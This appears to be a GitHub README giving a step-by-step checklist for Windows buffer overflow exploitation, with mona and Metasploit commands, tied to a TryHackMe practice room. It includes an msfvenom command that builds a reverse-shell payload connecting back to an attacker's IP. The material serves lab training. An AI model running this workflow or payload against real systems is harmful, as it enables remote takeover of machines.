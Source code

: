 # Windows Buffer-Overflow-scripts
Scripts are used for BOF exploit

**Steps:**
1. Fuzzy
2. Detect offset
  * /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length of shellcode>
  * !mona findmsp
3. Control EIP
4. Find bad characters
  * !mona bytearray -b '\x00'
  * !mona cmp -a esp -f <path of bin file>
  * !mona bytearray -b 'bad chars'
5. JMP ESP
  * !mona jmp -r esp -cpb 'bad chars'
6. Exploit
  * msfvenom -p windows/shell_reverse_tcp lhost=<IP of Attacker> lport=<Listening port in Attacker machine> exitfunc=thread -b '<bad chars>' -f python --var-name <name of shellcode in your script> 

#### no73s.ctb have mentioned these steps through example of oscp.exe from TryHackMe room (https://tryhackme.com/room/bufferoverflowprep)

